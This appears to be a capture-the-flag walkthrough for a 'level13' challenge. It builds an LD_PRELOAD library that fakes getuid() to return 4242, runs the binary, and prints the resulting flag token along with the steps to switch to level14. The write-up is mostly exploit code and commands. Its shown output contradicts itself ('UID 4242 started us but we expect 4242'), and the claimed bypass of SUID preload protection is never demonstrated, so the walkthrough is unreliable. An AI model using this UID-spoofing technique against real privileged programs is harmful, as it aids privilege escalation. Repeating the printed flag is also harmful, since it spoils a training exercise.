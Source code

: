 # Level13

## Objective
Exploit the `level13` binary to execute it with a modified UID using LD_PRELOAD and bypass the SUID binary preload protection.

## Steps

### Step 1: Create Fake UID Library
Create a C file named `fake_uid.c` with the following content:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

uid_t getuid(void) {
    return 4242;
}
```

Compile the library into a shared object file:

```bash
gcc -fPIC -shared -o /tmp/fake_uid.so /tmp/fake_uid.c -nostartfiles
```

### Step 2: Set TMPDIR and LD_PRELOAD
Set the `TMPDIR` environment variable to `/run/shm` and the `LD_PRELOAD` environment variable to the path of the fake UID library:

```bash
export TMPDIR=/run/shm
export LD_PRELOAD="/tmp/fake_uid.so"
```

### Step 3: Check Library Loading
Check that the library is loaded with `ldd`:

```bash
ldd level13
```

### Step 4: Run the Exploit
Run the `level13` binary to exploit it:

```bash
./level13
```

### Step 5: Obtain Flag
If successful, the output should include the flag:

```
UID 4242 started us but we expect 4242
2A31L79asukciNyi8uppkEuSx
```

### Step 6: Switch to `level14`
Switch to the `level14` user:

```bash
su level14
```

### Step 7: Verify
Execute `getflag` to verify that you have access:

```bash
getflag
```

This should give you the flag for this level.

Congratulations! You've successfully exploited the `level13` binary to obtain the token for `level14`.